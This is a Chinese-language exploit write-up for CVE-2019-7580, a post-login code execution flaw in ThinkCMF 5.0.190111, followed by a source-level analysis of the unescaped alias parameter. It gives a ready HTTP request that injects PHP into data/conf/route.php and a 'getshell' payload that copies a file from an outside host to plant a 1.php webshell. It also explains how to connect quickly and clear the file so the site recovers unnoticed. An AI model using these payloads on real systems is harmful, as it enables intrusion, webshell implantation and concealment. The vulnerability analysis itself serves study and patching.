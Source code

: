 ```yaml
---
title: （CVE-2019-7580）ThinkCMF 5.0.190111 后台代码执行漏洞
id: zhfly3141
---
```


# （CVE-2019-7580）ThinkCMF 5.0.190111 后台代码执行漏洞

## 一、漏洞简介

## 二、漏洞影响

ThinkCMF 5.0.190111

## 三、复现过程

### 0x01 利用过程：

后台登录状态下，
1、将payload插入数据库并读取然后写入data/conf/route.php文件

```
POST /portal/admin_category/addpost.html HTTP/1.1
Host: www.0-sec.org
Content-Length: 183
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=of2ar92rpeucrh4cg6s4t4dae6; admin_username=admin
Connection: close `parent_id=0&name=111&alias=1’%3D%3Earray(%22%22)%2Cphpinfo()%2C’2` 
```

2、然后访问：

```
/portal/admin_category/index.html 
```

触发

```
include data/conf/route.php 
```

操作，执行payload。下图以执行sleep(5)作为演示。

![image](../img/9d23f40458735047caf6dbd1b4d60fad.png)

![image](../img/d32452286911203706ac9402a8583412.png)

#### 补充

poc只是phpinfo,用eval一句话，或者用fputs写马 等都会报错

直接getshell exp

```
1'=>array("",""),copy("http://t00ls.com/1.txt","1.php"),'2 
```

这样网站也会崩掉

但是会再public下生成1.php

得快速连上，再清空thinkcmf\data\conf\route.php 文件
网站方可恢复正常

### 0x02 利用过程与分析

#### 1、将payload插入数据库，写入data/conf/route.php文件

程序的入口是index.php,在index.php中\think\App::run()执行应用。

![image](../img/8cb566df58623ded632a4c5b6d20a2ed.png)

在App.php的run()函数139行，执行sef::exec();

![image](../img/34f7608658d3efcf51537295d1e350bd.png)

通过解析url，得到处理此次请求的控制器、类、函数，即`AdminCategoryController.php`的`addPost`函数。然后调用`self::invokeMethod()`。

![image](../img/568e9a69c9dbe03f0b2d40d0ee54e92c.png)

通过反射执行`AdminCategoryController.php`的`addPost`函数。
在addPost函数中，从$this->request->param()函数中得到请求中的参数传递给$data。

![image](../img/bd05463162d61a10e179497edd3fb4e9.png)

然后通过$this->validata调用父类(./simplewind/thinkphp/library/think/Controller.php)的validata函数进行过滤。然后将$data传入`./app/portal/model/PortalCategoryModel.php`的addCategory函数进行实际的"添加分类"操作。

![image](../img/4b11b22f9b09d502ae714354d6820ccf.png)

在addCategory函数中，184行这一句：

```
$findRoute = $this->where('full_url', $fullUrl)->find(); 
```

通过查询数据中是否存在对应的url，由于是第一次插入，所以这里并没有查到。
154行和155行通过`setRoute`函数对数据库进行了两次插入操作。
根入`setRoute`函数，

![image](../img/669bae714c5ce1345e1875d06350da9f.png)

其中$fullUrl和$url的值如截图所示。
继续跟，

![image](../img/d01f2b65887128410cd2dc82288f3074.png)

在34行从数据库中查询查询相关数据，

```
$routes      = $this->where("status", 1)->order("list_order asc")->select(); 
```

在`addCategory`函数的157行调用

```
$routeModel->getRoutes(true); 
```

最终得到`$allroutes`的值,创建`data/conf`目录，然后拼接待写入的`route.php`文件的完整路径，最后调用`file_put_contents()`完成写入。可见这个漏洞在于没有对`alias`参数中的单引号进行过滤，导致可通过闭合前后的单引号插入用户可控的payload。
写入前后对比如下：

![image](../img/4611b404cec59797be79b8310c450e1c.png)

#### 2、触发payload执行

带着登录的cookie访问`/portal/admin_category/index.html`，调用`routeCheck`函数进行url路由检测

![image](../img/13301cb0d2d2e987aa511d2815ef6f8e.png)

这里先

```
include app/route.php 
```

![image](../img/ef719a0d2662bc50d4e5b115ca2e7b1c.png)

然后，

```
include data/conf/route.php 
```

![image](../img/ce2c459a4156e479dc15cf4669feaef4.png)

最终执行我们的payload：`phpinfo()`。

![image](../img/60b2011b3371961779133d2cd200de6d.png)

## 参考链接

> https://xz.aliyun.com/t/3997#toc-6